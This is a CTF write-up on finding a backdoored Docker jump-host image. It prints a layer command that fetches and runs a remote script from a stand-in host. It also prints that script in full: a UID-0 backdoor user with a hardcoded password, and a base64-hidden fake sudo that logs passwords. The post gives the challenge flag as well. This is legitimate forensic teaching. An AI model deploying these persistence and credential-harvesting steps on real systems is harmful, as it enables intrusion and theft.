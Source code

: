 ```yaml
---
layout: post
title: OpenECSC - Quick Response Code
date: 2022-04-30 15:51 +0200
author: Danique
tags: ctf openecsc pentest
categories: [CTF, Penetration Testing]
---
```

Easy challenge in the OpenECSC online environment, round 2, on HackingLab. Solved on 30-4-2022.

## Challenge Description
Developers have noticed that latest version of a SSH jump host which they are using for remote access is acting weirdly. When inspecting logs, they notice logins from strange accounts that should not be there. Their own dev account password also seems to be compromised, as logins are coming from unknown IP addresses. Sysadmins have recreated the jump host container from the latest image but with no luck. Same activity is still seen. Could the Docker repository be hacked? Could the hackers have tampered with the image? You must find out!

## Solution
First we pull the image from the Docker hub using 
```
docker pull hackinglab/jumphost
docker images
```

Next, we save the docker image so we can take a look at all the data:
```
sudo docker save -o image.tar hackinglab/jumphost
```

Which gives us a .tar file which we can extract and look through. If we look at the .json file in the tar we can see something interesting: 

```
{"created":"2021-08-22T09:39:55.595347697Z","created_by":"/bin/sh -c echo \"172.17.0.1\tattack.er\" \u003e\u003e /etc/hosts ; wget http://attack.er/persistence.sh \u0026\u0026 chmod +x persistence.sh \u0026\u0026 bash persistence.sh"},{"created":"2021-08-22T09:39:56.696079676Z","created_by":"/bin/sh -c rm persistence.sh"}
```

So there is a persistence.sh file that is downloaded and executed. So we need to find this file as there is probably a flag in there!


Trying to find the file in the extracted data of the docker image does not give any results, however when searching on the entire system we do get some files!:
```
$ sudo find / -name persistence.sh
find: ‘/run/user/1000/gvfs’: Permission denied
/var/lib/docker/overlay2/63d3207b57ab6fcd1717bbd35872e8fc26e91e556647c32bae256cc0127c9b62/diff/persistence.sh
/var/lib/docker/overlay2/38f36a939c4614642ec3f32f4e7743878d806a93f3f954581c2fb95fb00aa943/diff/persistence.sh
```

We view one of these files to see what the persistence script does:
```
$ sudo cat /var/lib/docker/overlay2/63d3207b57ab6fcd1717bbd35872e8fc26e91e556647c32bae256cc0127c9b62/diff/persistence.sh

#!/bin/bash

# Planting persistence

###############################################
# FLAG = d4da58b6-d572-4992-8342-7747969911d5 #
###############################################

useradd -ou 0 -g 0 systemservice
echo "systemservice:backdoorpass1" | chpasswd

mkdir /home/devs/.hidden

echo "IyBGbGFnIGlzIG5vdCBoZXJlIDooCgpyZWFkIC1zcCAiW3N1ZG9dIHBhc3N3b3JkIGZvciAkVVNF
UjogIiBzdWRvcGFzcwplY2hvICIiCnNsZWVwIDIKZWNobyAiU29ycnksIHRyeSBhZ2Fpbi4iCmVj
aG8gJHN1ZG9wYXNzID4+IC90bXAvcGFzcy50eHQKCi91c3IvYmluL3N1ZG8gJEAK" | base64 -d > /home/devs/.hidden/fsudo

chmod a+x /home/devs/.hidden/fsudo
echo "alias sudo=~/.hidden/fsudo" >> /home/devs/.bashrc
```
Which gives us our flag!
